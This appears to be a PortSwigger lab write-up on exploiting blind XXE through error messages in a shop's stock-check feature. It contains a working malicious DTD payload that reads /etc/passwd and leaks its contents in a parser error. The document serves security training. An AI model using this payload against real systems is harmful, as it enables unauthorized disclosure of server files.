


# Lab: Exploiting blind XXE to retrieve data via error messages

Lab-Link: <https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Known information

- Lab applications has a stock checking feature that is vulnerable to XXE
- Result of XEE is not displayed back
- Exploit server is provided to host malicious content
- Goals:
  - Exfiltrate the content of `/etc/passwd`

## Steps

### Analysis

Like in the [previous lab](../Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/README.md), this one contains the shop website together with an exploit server to host malicious content.

The request to check stock levels looks familiar:


Trying to add content to the result is not successful here. However, when causing a parsing error the error message is reported in the result:



If I can force the error message to contain the content I want to exfiltrate, I will receive it.

### Exploitation

The exploitation is similar to the lab [Blind XXE with out-of-band interaction via XML parameter entities](../Blind_XXE_with_out-of-band_interaction_via_XML_parameter_entities/README.md) and requires the use of parameter entities within a DTD file.

First I craft a malicious DTD that dynamically expands into an error message that contains the content of `/etc/passed`:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; err SYSTEM 'file:///foo/%file;'>">
%eval;
%err;
```

This will attempt to access a non existing file that has the full content of `/etc/passwd` as name. As that file is not found, a parsing error is caused and this application displays error messages.

I then reference this malicious DTD from the attack server within my product check request:



At this moment, the lab updates to


